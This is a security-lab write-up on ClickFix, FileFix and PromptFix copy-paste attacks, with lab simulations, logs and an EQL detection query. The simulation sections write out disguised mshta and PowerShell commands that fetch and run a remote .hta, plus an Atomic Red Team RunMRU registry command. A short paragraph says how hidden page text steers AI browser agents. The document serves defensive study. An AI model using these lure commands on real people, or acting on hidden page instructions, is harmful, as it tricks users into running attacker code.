








<!-- https://github.com/SigmaHQ/sigma/blob/1751ef8673365444ae44eb38887d3025982f4794/rules/windows/registry/registry_set/registry_set_runmru_susp_command_execution.yml#L8
https://github.com/SigmaHQ/sigma/blob/1751ef8673365444ae44eb38887d3025982f4794/rules-threat-hunting/windows/registry/registry_set/registry_set_runmru_command_execution.yml#L8 -->

# The "AnyFix" Technique: A Deep Dive into Malicious Copy-and-Paste Attacks
This is a deep dive into the family of social engineering techniques we're calling "AnyFix," which includes variants like ClickFix, FileFix, and PromptFix. These attacks have seen rapid adoption by threat actors due to their effectiveness in bypassing traditional security controls by tricking users into executing malicious code. This technique is categorized under MITRE ATT&CK as [T1204.004 - User Execution: Malicious Copy and Paste](https://attack.mitre.org/techniques/T1204/004/).

## Threat Intelligence
The "AnyFix" family of social engineering techniques has shown a dramatic increase in adoption by a wide range of threat actors since 2023, from initial access brokers to nation-state groups. These methods exploit user trust in familiar interfaces to achieve code execution, often bypassing traditional defenses because the malicious activity is initiated by the user themselves.

Campaigns delivering malware such as LummaStealer, DarkGate, NetSupport RAT, and various ransomware families have successfully utilized these techniques. Threat actors like the Russian state-backed group Star Blizzard (also known as ColdRiver) and the Interlock ransomware gang have been observed employing ClickFix variants in their operations. The attack often begins with a phishing email, malvertising, or SEO poisoning that directs the user to a malicious webpage.

### Attack Variants
There are multiple variants known in the "AnyFix" family. More variants are likely to emerge in the future.

!!! note "ClickFix"
    The original technique, ClickFix, typically involves a webpage displaying a fake CAPTCHA or an error message. The user is instructed to copy a piece of text and paste it into the Windows Run dialog (`Win+R`) or a terminal to "fix" the issue. This command is often a PowerShell one-liner that downloads and executes the next stage of the attack.

!!! note "FileFix"
    A stealthier evolution, FileFix, instructs the user to paste the malicious command into the Windows File Explorer address bar instead of the Run dialog. This can feel more benign to the user, as they may believe they are simply navigating to a file path. This method can also bypass Mark-of-the-Web (MOTW) warnings that would typically appear for downloaded files.

!!! note "PromptFix"
    A newer and more sophisticated variant, PromptFix, targets users of AI-powered browsers and agents. Attackers embed malicious instructions in invisible text on a webpage. While the human user sees a normal page, the AI agent processes the hidden text as a command, potentially leading to actions like drive-by downloads or interacting with phishing sites without the user's knowledge.

### References

- [(Microsoft) Think before you Click(Fix): Analyzing the ClickFix social engineering technique ](https://www.microsoft.com/en-us/security/blog/2025/08/21/think-before-you-clickfix-analyzing-the-clickfix-social-engineering-technique/)
- [(Proofpoint) Security Brief: ClickFix Social Engineering Technique Floods Threat Landscape](https://www.proofpoint.com/us/blog/threat-insight/security-brief-clickfix-social-engineering-technique-floods-threat-landscape)
- [(KQLQuery.com) Investigating ClickFix Incidents](https://kqlquery.com/posts/investigate-clickfix/)
- [(mrd0x.com) FileFix - A ClickFix Alternative](https://mrd0x.com/filefix-clickfix-alternative/)
- [(BleepingComputer) From ClickFix to MetaStealer: Dissecting Evolving Threat Actor Techniques](https://www.bleepingcomputer.com/news/security/from-clickfix-to-metastealer-dissecting-evolving-threat-actor-techniques/)
- [(Sekoia) Interlock ransomware evolving under the radar](https://blog.sekoia.io/interlock-ransomware-evolving-under-the-radar/)
- [(Elastic) A Wretch Client: From ClickFix deception to information stealer deployment](https://www.elastic.co/security-labs/a-wretch-client)

## Attack Simulation
We simulate parts of the attack to generate logs for further analysis. There are various options available:

### Atomic Red Team
The [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team) project develops small and highly portable detection tests. They have created a special test for Clickfix, where Powershell is used to insert a payload as value for the RunMRU registry key. This simulation focuses on the unique registry artifact of the ClickFix technique and does not replicate the full user interaction.

!!! note "Atomic Red Team test for ClickFix"
    [***Atomic Red Team: T1204.002 Test #12 - ClickFix Campaign - Abuse RunMRU to Launch mshta via PowerShell***](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1204.002/T1204.002.md#atomic-test-12---clickfix-campaign---abuse-runmru-to-launch-mshta-via-powershell) 

    *Simulates a ClickFix-style campaign by adding a malicious entry to the RunMRU registry key that launches mshta.exe with a remote payload:*

    ``` ps1
    Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU" -Name "atomictest" -Value '"C:\Windows\System32\mshta.exe" http://localhost/hello6.hta'
    ```

### Simulated ClickFix & FileFix Page
For a more realistic simulation, a static webpage can be crafted and hosted within a lab environment for live interaction from a victim machine. We will host HTML pages using Python on a Kali host and browse to them from a Windows host. 

#### Webpages
We use simple HTML with JavaScript to copy the payload to the user's clipboard when a button is clicked, simulating the core mechanism of these attacks.

=== "ClickFix"

    ??? note "HTML code for simulated ClickFix page"
        Embedded code from the 'projects' folder in the GitHub repository. Contains example payload.

        ``` html linenums="1"
        --8<-- "./projects/security_lab/research/anyfix/clickfix.html"
        ```

    ??? note "Hosting malicious webpage on Kali"
        Python command to host the malicious HTML files on Kali for the victim client to connect to.

        ``` bash 
        $ ls
        clickfix.html   filefix.html    open_calc.hta

        $ python3 -m http.server 80
        Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
        ```

    { align=left }
    /// caption
    Simulated ClickFix-style page.
    ///


=== "FileFix"

     ??? note "Hosting malicious webpage on Kali"
        Python command to host the malicious HTML files on Kali for the victim client to connect to.

        ``` bash
        $ ls
        clickfix.html   filefix.html    open_calc.hta

        $ python3 -m http.server 80
        Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
        ```

    ??? note "HTML code for simulated FileFix page"
        Embedded code from the 'projects' folder in the GitHub repository. Contains example payload.

        ``` html linenums="1"
        --8<-- "./projects/security_lab/research/anyfix/filefix.html"
        ```

    { align=left }
    /// caption
    Simulated FileFix-style page.
    ///

#### Payloads
There is a large variety of payloads that can be used for these techniques as can be seen in the reports linked on top of this page. One of the first seen payloads in the wild leveraged .HTA files through Mshta. We will be using those to simulate the attack. The main difference between the "AnyFix" variations is the obscurity at the end of the payloads.

=== "ClickFix"

    { align=left }
    /// caption
    Simulated ClickFix Payload in Windows Run Dialog.
    ///

    !!! note "Mshta payload"
        Simulates a user pasting a potentially malicious Mshta command into the Windows run dialog, following a typical ClickFix structure to deceive users. This payload will open the Windows calculator application.

        ``` ps1
        mshta.exe http://192.168.1.100/open_calc.hta # ✅ I am not a robot - Verification ID: 123456 - Press OK
        ```

        ??? note "Code for simulated .HTA payload file"
            Embedded code from the 'projects' folder in the GitHub repository. Contains payload to open Windows Calculator.

            ``` html linenums="1"
            --8<-- "./projects/security_lab/research/anyfix/open_calc.hta"
            ```

    !!! note "[Extra] Powershell payload"   
        Simulates a user pasting a potentially malicious Powershell command into the Windows run dialog, following a typical ClickFix structure to deceive users.

        ``` ps1
        powershell Invoke-RestMethod -Uri "https://www.cloudflare.com" -Method GET  # ✅ I am not a robot - Verification ID: 123456 - Press OK
        ```
    

=== "FileFix"

    { align=left }
    /// caption
    Simulated FileFix Payload in Windows Explorer.
    ///

    !!! note "Mshta payload"
        Simulates a user pasting a potentially malicious Mshta command into the Windows run dialog, following a typical ClickFix structure to deceive users. This payload will open the Windows calculator application.

        ``` ps1
        mshta.exe http://192.168.1.100/open_calc.hta  # C:\\company\\internal-secure\\filedrive\\HRPolicy.docx
        ```

        ??? note "Code for simulated .HTA payload file"
            Embedded code from the 'projects' folder in the GitHub repository. Contains payload to open Windows Calculator.

            ``` html linenums="1"
            --8<-- "./projects/security_lab/research/anyfix/open_calc.hta"
            ```

    !!! note "[Extra] Powershell payload"   
        Simulates a user pasting a potentially malicious Powershell command into the Windows Explorer, following a typical FileFix structure to deceive users.

        ``` ps1
        powershell Invoke-RestMethod -Uri "https://www.cloudflare.com" -Method GET  # C:\\company\\internal-secure\\filedrive\\HRPolicy.docx
        ```


## Logs

### Host
Both simulations generated over 250 logs, primarily from Sysmon due to our detailed tracing configuration. The logs from both simulations are very similar, as expected from their parallel attack paths. The key difference lies in the specific registry keys that are modified.

{ align=left }
/// caption
Summary of logs generated by ClickFix simulation. Results are similar for FileFix. 
///

=== "ClickFix"
    
    Elastic Defend only captured events related to the calculator process starting. It did not capture any RunMRU registry changes. This may be due to default policy configurations that do not monitor this specific registry key for changes. This highlights a potential visibility gap in some EDR solutions.  

    { align=left }
    /// caption
    Limited logs generated by Elastic Agent.
    ///

    Sysmon, with an appropriate configuration (see architecture), provided full visibility into the attack chain. It logged the network connection to the malicious HTML page, the subsequent process events, and the modification of the registry. The `RunMRU` key will contain the payload when a command is executed from the Windows Run dialog.

    { align=left }
    /// caption
    Logs generated by Sysmon (filtered for relevance).
    ///

=== "FileFix"

    Similar to the ClickFix simulation, Elastic Defend only captured the calculator process events. Sysmon, however, covered the full attack chain. For FileFix, the interesting registry artifact is the modification of the `TypedPaths` key, which is updated when a path is entered into the File Explorer address bar when Windows Explorer is opened through a browser (not via `CTRL+E`).

    { align=left }
    /// caption
    Logs generated by Sysmon specific to registry changes during the FileFix attack chain.
    ///

<!-- what do we see with ClickFix
- Command execution (Elastic agent, Symon, Powershell)
- DNS request (Zeek, Symon)
- Registry RunMRU value set (Sysmon)

TODO
- Powershell logs detection
- toml -->


## Detection & Hunting
None of the default Elastic rules were triggered during the simulated attack sequence. This underscores the evasive nature of user-initiated execution.

Elastic has published a [detection rule](https://github.com/elastic/protections-artifacts/blob/main/behavior/rules/windows/execution_suspicious_command_shell_execution_via_windows_run.toml) for this behavior. Below is an adapted version of the EQL query that can be used for creating a detection rule or for threat hunting in Kibana. The original query has been modified to include our findings and remove fields that may not be populated in all environments.

``` sql linenums="1" title="[CUSTOM] [EQL] Execution of Suspicious Commands in Combination with AnyFix Registry Entry"
sequence by host.id with maxspan=1m
  [ 
/* (1)! */ process where (event.action == "start" or event.action == "Process creation") and
/* (2)! */ process.name : ("cmd.exe", "powershell.exe", "curl.exe", "msiexec.exe", "mshta.exe", "wscript.exe", "cscript.exe") and
/* (3)! */ process.parent.name : "explorer.exe" and 
/* (4)! */ process.args_count >= 2 ]
/* (5)! */  [ registry where event.action == "RegistryEvent (Value Set)" and
    registry.path : "*RunMRU*" and
    registry.data.strings : ("*cmd*", "*powershell*", "*curl*", "*mshta*") ]
```

1. **Event action filter:** Only include process creation events (Elastic Defend and Symon respectively).
2. **Process name filter:** Include high-risk or commonly abused executables.
3. **Parent process filter:** Restrict to processes launched by Explorer (user-initiated).
4. **Argument count filter:** Only include processes with two or more arguments, indicating significant execution.
5. **Registry modification:** RunMRU written then process start (ClickFix).


